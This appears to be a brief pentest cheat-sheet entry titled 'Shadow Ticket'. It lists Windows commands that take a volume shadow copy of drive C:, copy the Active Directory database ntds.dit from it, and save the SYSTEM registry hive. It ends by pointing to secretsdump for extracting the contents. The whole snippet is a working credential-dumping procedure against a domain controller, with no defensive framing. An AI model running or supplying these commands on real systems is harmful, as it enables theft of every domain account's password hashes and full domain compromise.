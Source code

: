 

## Shadow Ticket

Take a snapshot of drive C: :
```
vshadow.exe -nw -p  C:
```

Copy whe whole AD database:
```
copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy2\windows\ntds\ntds.dit c:\ntds.dit.bak
```

Extract the content of ntds.dit and save the SYSTEM hive:
```
reg.exe save hklm\system c:\system.bak
```

Now use secretsdump

